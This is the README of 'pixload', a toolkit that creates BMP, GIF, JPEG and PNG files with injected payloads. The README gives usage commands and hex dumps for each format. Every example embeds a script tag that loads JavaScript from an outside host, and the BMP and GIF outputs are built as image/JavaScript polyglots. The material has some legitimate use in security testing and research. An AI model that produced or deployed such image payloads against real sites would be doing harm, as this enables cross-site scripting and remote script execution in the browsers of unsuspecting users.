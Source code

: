 # pixload -- Image Payload Creating tools

## DESCRIPTION

Set of tools for creating/injecting payload into images.

## SETUP

The following Perl modules are required:

	- GD

	- Image::ExifTool

	- String::CRC32

On Debian-based systems install these packages:

```sh
sudo apt install libgd-perl libimage-exiftool-perl libstring-crc32-perl
```

On OSX please refer to [this workaround](https://github.com/chinarulezzz/pixload/issues/3).

Thanks to @iosdec

## TOOLS

### bmp.pl

BMP Payload Creator/Injector.

##### Usage

```sh
./bmp.pl [-payload 'STRING'] -output payload.bmp

If the output file exists, then the payload will be injected into the
existing file.  Else the new one will be created.
```

##### Example

```sh
./bmp.pl -output payload.bmp

[>|       BMP Payload Creator/Injector      |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] File saved to: payload.bmp

[>] Injecting payload into payload.bmp
[✔] Payload was injected successfully

payload.bmp: PC bitmap, OS/2 1.x format, 1 x 1

00000000  42 4d 2f 2a 00 00 00 00  00 00 1a 00 00 00 0c 00  |BM/*............|
00000010  00 00 01 00 01 00 01 00  18 00 00 00 ff 00 2a 2f  |..............*/|
00000020  3d 31 3b 3c 73 63 72 69  70 74 20 73 72 63 3d 2f  |=1;<script src=/|
00000030  2f 6e 6a 69 2e 78 79 7a  3e 3c 2f 73 63 72 69 70  |/nji.xyz></scrip|
00000040  74 3e 3b                                          |t>;|
00000043
```

### gif.pl

GIF Payload Creator/Injector.

##### Usage

```sh
./gif.pl [-payload 'STRING'] -output payload.gif

If the output file exists, then the payload will be injected into the
existing file.  Else the new one will be generated.
```
##### Example

```sh
./gif.pl -output payload.gif

[>|      GIF Payload Creator/Injector       |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] File saved to: payload.gif

[>] Injecting payload into payload.gif
[✔] Payload was injected successfully

payload.gif: GIF image data, version 87a, 10799 x 32

00000000  47 49 46 38 37 61 2f 2a  20 00 80 00 00 04 02 04  |GIF87a/* .......|
00000010  00 00 00 2c 00 00 00 00  20 00 20 00 00 02 1e 84  |...,.... . .....|
00000020  8f a9 cb ed 0f a3 9c b4  da 8b b3 de bc fb 0f 86  |................|
00000030  e2 48 96 e6 89 a6 ea ca  b6 ee 0b 9b 05 00 3b 2a  |.H............;*|
00000040  2f 3d 31 3b 3c 73 63 72  69 70 74 20 73 72 63 3d  |/=1;<script src=|
00000050  2f 2f 6e 6a 69 2e 78 79  7a 3e 3c 2f 73 63 72 69  |//nji.xyz></scri|
00000060  70 74 3e 3b                                       |pt>;|
00000064
```

### jpg.pl

JPG Payload Creator/Injector.

##### Usage

```sh
./jpg.pl [-payload 'STRING'] -output payload.jpg

If the output file exists, then the payload will be injected into the
existing file.  Else the new one will be created.
```

##### Example

```sh
./jpg.pl -output payload.jpg

[>|      JPEG Payload Creator/Injector      |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] File saved to: payload.jpg

[>] Injecting payload into comment tag
[✔] Payload was injected successfully

payload.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96,
segment length 16, comment: "<script src=//nji.xyz></script>", baseline,
precision 8, 32x32, components 3

00000000  ff d8 ff e0 00 10 4a 46  49 46 00 01 01 01 00 60  |......JFIF.....`|
00000010  00 60 00 00 ff fe 00 21  3c 73 63 72 69 70 74 20  |.`.....!<script |
00000020  73 72 63 3d 2f 2f 6e 6a  69 2e 78 79 7a 3e 3c 2f  |src=//nji.xyz></|
00000030  73 63 72 69 70 74 3e ff  db 00 43 00 08 06 06 07  |script>...C.....|
00000040  06 05 08 07 07 07 09 09  08 0a 0c 14 0d 0c 0b 0b  |................|
00000050  0c 19 12 13 0f 14 1d 1a  1f 1e 1d 1a 1c 1c 20 24  |.............. $|
00000060  2e 27 20 22 2c 23 1c 1c  28 37 29 2c 30 31 34 34  |.' ",#..(7),0144|
00000070  34 1f 27 39 3d 38 32 3c  2e 33 34 32 ff db 00 43  |4.'9=82<.342...C|
00000080  01 09 09 09 0c 0b 0c 18  0d 0d 18 32 21 1c 21 32  |...........2!.!2|
00000090  32 32 32 32 32 32 32 32  32 32 32 32 32 32 32 32  |2222222222222222|
*
...
000002a6
```

### png.pl

PNG Payload Creator/Injector.

##### Usage

```sh
./png.pl [-payload 'STRING'] -output payload.png

If the output file exists, then the payload will be injected into the
existing file.  Else the new one will be created.
```

##### Example

```sh
./png.pl -output payload.png

[>|      PNG Payload Creator/Injector       |<]

    https://github.com/chinarulezzz/pixload


[>] Generating output file
[✔] File saved to: payload.png

[>] Injecting payload into payload.png

[+] Chunk size: 13
[+] Chunk type: IHDR
[+] CRC: fc18eda3
[+] Chunk size: 9
[+] Chunk type: pHYs
[+] CRC: 952b0e1b
[+] Chunk size: 25
[+] Chunk type: IDAT
[+] CRC: c8a288fe
[+] Chunk size: 0
[+] Chunk type: IEND

[>] Inject payload to the new chunk: 'pUnk'
[✔] Payload was injected successfully

payload.png: PNG image data, 32 x 32, 8-bit/color RGB, non-interlaced

00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 09 70 48 59  73 00 00 0e c4 00 00 0e  |.....pHYs.......|
00000030  c4 01 95 2b 0e 1b 00 00  00 19 49 44 41 54 48 89  |...+......IDATH.|
00000040  ed c1 31 01 00 00 00 c2  a0 f5 4f ed 61 0d a0 00  |..1.......O.a...|
00000050  00 00 6e 0c 20 00 01 c8  a2 88 fe 00 00 00 00 49  |..n. ..........I|
00000060  45 4e 44 ae 42 60 82 00  00 00 00 00 00 00 00 00  |END.B`..........|
00000070  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
000000c0  00 1f 70 55 6e 6b 3c 73  63 72 69 70 74 20 73 72  |..pUnk<script sr|
000000d0  63 3d 2f 2f 6e 6a 69 2e  78 79 7a 3e 3c 2f 73 63  |c=//nji.xyz></sc|
000000e0  72 69 70 74 3e 9d 11 54  97 00 49 45 4e 44        |ript>..T..IEND|
000000ee
```

## LICENSE

WTFPL

## LEGAL DISCLAIMER

The author does not hold any responsibility for the bad use
of this tool, remember that attacking targets without prior
consent is illegal and punished by law.

